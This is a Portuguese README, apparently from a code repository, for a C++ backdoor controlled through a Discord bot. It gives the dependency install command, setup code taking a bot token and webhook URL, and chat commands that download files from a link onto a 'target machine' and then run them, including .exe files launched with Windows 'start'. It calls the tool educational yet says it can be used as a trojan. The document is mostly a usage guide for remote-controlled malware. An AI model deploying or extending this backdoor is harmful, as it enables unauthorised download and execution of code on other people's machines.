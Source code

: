 Backdoor

Este projeto é uma API pública para fins educacionais que se assemelha a um backdoor.
Você pode utilizá-la junto ao seu programa para obter acesso ao download e execução de arquivos na máquina alvo.
Isso pode ser explorado como um trojan, mas o objetivo deste projeto é puramente educacional.

Instalação de Dependências

Para rodar corretamente este programa, você precisará do DPP e do Curl. Caso esteja no Arch Linux, você pode instalá-los usando o AUR:

yay -S dpp curl

Uso do Backdoor no Código

Para utilizar o backdoor em seu aplicativo, configure o seguinte código:

#include "network.hpp"

int main(){
    std::string token = "seu_token_aqui";
    const std::string& webhook_url = "seu_webhook_aqui";
    const std::string version = "1.3";
    
    network program(token, webhook_url, version);
    program.MAIN();
    program.perfomBot();
    
    return 0;
}

⚠️ Atenção: Dependendo do sistema operacional do alvo, o comando de execução do aplicativo baixado deve ser alterado.
O padrão está configurado para Windows ("start"). Para modificar, edite o arquivo network.hpp, linha 64.

Comandos Básicos

Os comandos abaixo são utilizados para interagir com o backdoor pelo bot do Discord.

Comando de Desligamento

Desativa o bot sem desligar a máquina:

;shutDown

Modo Debugger

Ativa ou desativa o modo debugger:

;deBugger on  # Ativar
;deBugger off # Desativar

Verificar a Versão

Exibe a versão do bot:

;version

Adicionar a um Grupo

Permite adicionar a um grupo para envio de mensagens direcionadas:

;add nome_do_grupo

Baixar Arquivos

Faz o download de arquivos da internet:

;pl.png link_do_arquivo
;pl.exe link_do_arquivo
;pl.mp4 link_do_arquivo

Abrir Arquivos Baixados

Executa arquivos previamente baixados:

;op.png
;op.exe
;op.mp4

Créditos

Mostra os créditos do desenvolvedor:

;credits

Configurar o Bot

Link para configurar o bot no Discord Developers:

;devBot

Considerações Finais

Este projeto foi desenvolvido apenas para aprendizado e pesquisa.
O uso inadequado pode resultar em consequências legais.
Use com responsabilidade.


